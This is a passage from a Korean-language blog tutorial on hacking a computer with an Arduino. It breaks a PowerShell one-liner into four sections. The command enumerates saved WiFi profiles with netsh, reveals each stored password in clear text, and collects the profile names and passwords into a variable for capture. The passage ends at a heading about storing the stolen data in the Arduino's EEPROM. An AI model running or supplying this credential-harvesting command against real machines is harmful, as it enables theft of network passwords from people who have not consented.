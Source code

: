 <img src="/assets/img/2024-06-22-HackingacomputerusingArduino_2.png" />

WiFi SSID 표시 명령어가 길고 이해하기 어렵습니다. 이 글의 다음 부분에서는 명령어를 몇 가지 소화 가능한 섹션으로 나눠 코드의 기능을 이해하기 쉽게 설명하겠습니다.

<div class="content-ad"></div>

# 명령어 이해하기

## 섹션 A

이 명령어 섹션은 캐시된 SSID를 표시하고 ":(.+$" 문자열을 정규 표현식으로 필터링합니다.

```js
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim();
```

<div class="content-ad"></div>

<img src="/assets/img/2024-06-22-HackingacomputerusingArduino_3.png" />

## 섹션 B

```js
%{(netsh wlan show profile name="$name" key=clear)}
```

이전 파이프에서 검색한 $name 변수를 사용했음을 주의하세요. netsh wlan 함수를 다시 호출하여 SSID에 대한 추가 정보를 얻습니다.

<div class="content-ad"></div>

<img src="/assets/img/2024-06-22-HackingacomputerusingArduino_4.png" />

## 섹션 C

여기서 Key Content(비밀번호)를 추출하여 $pass 변수에 할당합니다.

```js
Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_}
```

<div class="content-ad"></div>

## 섹션 D

마지막으로, 프로필 이름과 비밀번호 속성을 포함한 PS 객체를 생성하고 테이블 형식으로 표시하여 $dataCaptured에 작성합니다.

```js
%{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass } | Format-Table –AutoSize | Out-String -OutVariable dataCaptured
```

# EEPROM에 데이터 저장하는 명령
